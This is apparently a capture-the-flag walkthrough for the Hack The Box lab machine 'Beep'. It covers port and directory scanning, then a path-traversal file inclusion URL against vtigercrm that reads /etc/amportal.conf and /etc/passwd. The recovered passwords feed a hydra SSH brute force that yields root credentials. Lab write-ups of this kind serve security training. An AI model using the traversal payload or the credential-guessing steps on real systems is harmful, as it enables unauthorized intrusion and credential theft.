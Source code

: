 # [Beep](https://www.hackthebox.com/machines/beep)


```bash
nmap -sC -sS -T4 -p- -sV -A 10.10.10.7
```

![Alt text](img/image.png)


Directory Brute-forcing
```bash
ffuf -u https://10.10.10.7/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![Alt text](img/image-2.png)


After I see that web application is elastix, let's search CVE of this web application.
I found below CVE.

![Alt text](img/image-3.png)


After looking at the content , I see below LFI.
```bash
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

Also, by modifying 'etc/amportal.conf' file with 'etc/passwd' file we can enumerate users and passwords of them.


Possible Users=>
root
asterisk
admin
asteriskuser
cyrus
fanis
spamfilter
mysql

Possible Passwords=>
jEhdIekWmdjE
amp109

![Alt text](img/image-4.png)

Let's start brute-forcing for ssh.


```bash
hydra -L users.txt -P passwords.txt ssh://10.10.10.7
```

![Alt text](img/image-5.png)

I found valid credentials.

username: root
password: jEhdIekWmdjE


While trying to connect via ssh. I have problem, but I solved this.
![Alt text](img/image-6.png)


user.txt and root.txt (together)

![Alt text](img/image-7.png)

